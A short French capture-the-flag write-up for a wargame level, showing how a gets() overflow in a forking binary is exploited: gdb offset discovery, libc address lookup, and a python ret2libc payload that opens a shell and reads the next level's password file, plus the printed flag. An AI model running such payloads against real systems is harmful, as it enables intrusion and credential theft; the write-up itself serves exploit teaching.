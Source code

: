 1. Le programme fork, le parent va rentrer dans la boucle infinie, et l'enfant dans la premiere condition. L'utilisation de la fonction `gets` creer une vulnerabilite que l'on peut exploiter.

2. On passe gdb en mode follow-child avec la commande `set follow-fork-mode child`.

3. Obtention de l'offset
   ```
   (gdb) r < <(echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag")
   [...]
   0x41326641 in ?? ()
   ```
   > Offset de 156

4. Etant donne que l'on ne peut pas faire de syscall on va utiliser la methode `RET2LIBC`.

   ```
   # Addresse de system
   (gdb) info function system
   [...]
   0xf7e6aed0  system

   # Addresse d'exit
   (gdb) info function exit
   [...]
   0xf7e5eb70  exit

   # Addresse de "/bin/sh"
   (gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
   0xf7f897ec
   ```

```
(python -c 'print "A" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]'; cat) | ./level04

cat /home/users/level05/.pass
```
> Flag: 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
